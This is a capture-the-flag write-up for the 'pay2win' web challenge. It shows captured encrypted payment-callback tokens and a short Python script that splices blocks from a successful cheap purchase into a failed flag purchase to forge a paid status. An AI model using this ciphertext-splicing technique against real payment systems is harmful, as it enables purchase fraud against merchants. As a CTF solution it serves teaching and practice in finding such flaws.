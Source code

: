 ## pay2win (Web-200)

> Writeup by rnehra01(Ravinder Nehra)

### Description
Do you have enough money to buy the flag?

### Solution
So the challenge was an easy one. `Cheap` can be bought by entering a valid credit card but purchase failed for `flag`. After looking at the challenge for a very long time, `data` parameter in the URL looked suspicious.

[`data` during buying of `flag`]
```
f1=5e4ec20070a567e0e3408e92be677178ee8cbd062a60582b4f75c9736d3b8e0641e7995bb92506da1ac7f8da5a628e19ae39825a916d8a2f
f2=5e4ec20070a567e0e3408e92be677178d238c1d6d01839664f75c9736d3b8e0641e7995bb92506da1ac7f8da5a628e19ae39825a916d8a2f 
```
[`data` contents during buying of `cheap`]
```
c1=5e4ec20070a567e0e3408e92be6771789c68e186a73ad0df3b5b0554edda4f8828df361f896eb3c3706cda0474915040
c2=5e4ec20070a567e0e3408e92be677178ae6633fbd9d624ff3b5b0554edda4f8828df361f896eb3c3706cda0474915040
c3=5e4ec20070a567e0e3408e92be677178a1e8f028a2ce7c2a3b5b0554edda4f8828df361f896eb3c3706cda0474915040
```
[`data` contents after failed purchase]
```
ff1=232c66210158dfb23a2eda5cc945a0a9650c1ed0fa0a08f661c6c60fea312a3de871eef719f5fde02f7ef761e2bbe791
ff2=232c66210158dfb23a2eda5cc945a0a9650c1ed0fa0a08f661c6c60fea312a3d272d81aff52de2a52f7ef761e2bbe791
```
[`data` contents after successful purchase]
```
cp1=5765679f0870f4309b1a3c83588024d7c146a4104cf9d2c8dca8a210beb51eda28df361f896eb3c3706cda0474915040
cp2=5765679f0870f4309b1a3c83588024d7c146a4104cf9d2c86117e55fc22ad33f28df361f896eb3c3706cda0474915040
cp3=5765679f0870f4309b1a3c83588024d7c146a4104cf9d2c81f381a6fcd665bdb28df361f896eb3c3706cda0474915040
```

So, three successful purhases of `cheap` gave same prefix and prefix changed in unsuccessful purchase.
Also suffix of `c1` and `cp1` are same, so most probably they contain information about name of product and suffix contain `purchase status` 

Initially I tried to decode the data contents but got no luck.
So I just tried to brute-force the prefix and got the flag using the script.

```
import requests

#failed purchase for flag
ff='232c66210158dfb23a2eda5cc945a0a9650c1ed0fa0a08f661c6c60fea312a3d272d81aff52de2a52f7ef761e2bbe791'
#good purchase for cheap
cp='5765679f0870f4309b1a3c83588024d7c146a4104cf9d2c8dca8a210beb51eda28df361f896eb3c3706cda0474915040'

url = 'http://78.46.224.78:5000/payment/callback?data='

for i in range(0,50):
	data = cp[:i]+ff[i:]
	print 'Trying : ',url+data
	r=requests.get(url+data)
	
	if (r.status_code == 200):
		print r.text
		if ('flag' in r.text):
			break
```

